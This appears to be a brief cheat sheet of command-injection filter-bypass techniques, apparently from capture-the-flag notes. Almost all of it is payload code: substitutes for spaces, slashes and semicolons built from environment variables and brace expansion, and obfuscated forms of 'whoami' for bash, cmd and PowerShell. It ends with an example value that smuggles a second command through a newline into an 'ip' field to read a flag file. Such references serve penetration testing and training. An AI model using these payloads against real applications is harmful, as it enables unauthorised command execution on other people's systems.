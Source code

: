 ___
# Space
A space is a commonly blacklisted character, using `tabs (%09)` instead of spaces

Using the (`$IFS`) Linux Environment Variable may also work since its default value is a space and a tab, which would work between command arguments

`Bash Brace Expansion` feature, which automatically adds spaces between arguments wrapped between braces

```bash
{ls,-la}
```

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space

# Slash (`/`) 

```bash
echo ${PATH:0:1}

/
```

# Semi-colon (`;`)

```shell-session
echo ${LS_COLORS:10:1}

;
```

# Windows backslash (`\`)

```bash
echo %HOMEPATH:~6,-11%

\
```

```bash
$env:HOMEPATH[0]
```

# Commands

```bash
w'h'o'am'i
w"h"o"am"i
who$@ami
w\ho\am\i
```

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

```bash
$(rev<<<'imaohw')
```
#### windows

```cmd
who^ami
WhOaMi
```

```
iex "$('imaohw'[-1..-20] -join '')"
```
# Example

```bash
ip=127.0.0.1%0a{c'a't,${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}
```

```bash
cat /home/1nj3c70r/flag.txt
```




